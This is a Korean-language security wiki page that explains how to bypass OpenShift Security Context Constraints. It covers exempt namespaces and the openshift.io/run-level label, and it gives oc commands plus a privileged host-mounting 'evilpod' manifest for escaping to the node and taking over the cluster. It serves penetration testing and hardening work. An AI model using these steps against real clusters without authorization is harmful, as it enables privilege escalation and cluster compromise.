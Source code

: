 # Openshift - SCC 우회

**이 페이지의 원래 저자는** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)입니다.

## 권한이 있는 네임스페이스

기본적으로 SCC는 다음 프로젝트에 적용되지 않습니다:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

이 네임스페이스 중 하나에 포드를 배포하면 SCC가 적용되지 않아 권한이 있는 포드를 배포하거나 호스트 파일 시스템을 마운트할 수 있습니다.

## 네임스페이스 레이블

RedHat 문서에 따르면 포드에서 SCC 적용을 비활성화하는 방법이 있습니다. 다음 권한 중 하나 이상이 필요합니다:

- 네임스페이스 생성 및 이 네임스페이스에 포드 생성
- 네임스페이스 편집 및 이 네임스페이스에 포드 생성
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
특정 레이블 `openshift.io/run-level`은 사용자가 애플리케이션에 대한 SCC를 우회할 수 있게 해줍니다. RedHat 문서에 따르면, 이 레이블이 사용될 때 해당 네임스페이스 내의 모든 포드에 대해 SCC가 적용되지 않으며, 사실상 모든 제한이 제거됩니다.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## 레이블 추가

네임스페이스에 레이블을 추가하려면 :
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
YAML 파일을 통해 레이블이 있는 네임스페이스를 생성하려면:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
이제 네임스페이스에서 생성된 모든 새로운 팟은 SCC가 없어야 합니다.

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

SCC가 없으면 팟 정의에 대한 제한이 없습니다. 이는 악의적인 팟이 호스트 시스템으로 쉽게 탈출할 수 있음을 의미합니다.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
이제 호스트 시스템에 대한 권한 상승이 더 쉬워졌으며, 그에 따라 전체 클러스터를 장악하고 'cluster-admin' 권한을 얻을 수 있습니다. 다음 페이지에서 **Node-Post Exploitation** 부분을 찾아보세요:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### 사용자 정의 레이블

또한, 대상 설정에 따라 일부 사용자 정의 레이블/주석이 이전 공격 시나리오와 동일한 방식으로 사용될 수 있습니다. 비록 의도하지 않았더라도, 레이블은 특정 리소스에 대한 권한을 부여하거나 제한하는 데 사용될 수 있습니다.

리소스를 읽을 수 있다면 사용자 정의 레이블을 찾아보세요. 흥미로운 리소스 목록은 다음과 같습니다:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## 모든 권한이 있는 네임스페이스 나열
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## 고급 익스플로잇

OpenShift에서는 앞서 설명한 바와 같이, `openshift.io/run-level` 레이블이 있는 네임스페이스에 포드를 배포할 수 있는 권한이 있으면 클러스터를 간단히 장악할 수 있습니다. 클러스터 설정 관점에서 이 기능은 **비활성화할 수 없습니다**, 이는 OpenShift의 설계에 내재된 것입니다.

그러나 **Open Policy Agent GateKeeper**와 같은 완화 조치는 사용자가 이 레이블을 설정하는 것을 방지할 수 있습니다.

GateKeeper의 규칙을 우회하고 이 레이블을 설정하여 클러스터 장악을 실행하려면, **공격자는 대체 방법을 식별해야 합니다.**

## 참고 문헌

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)

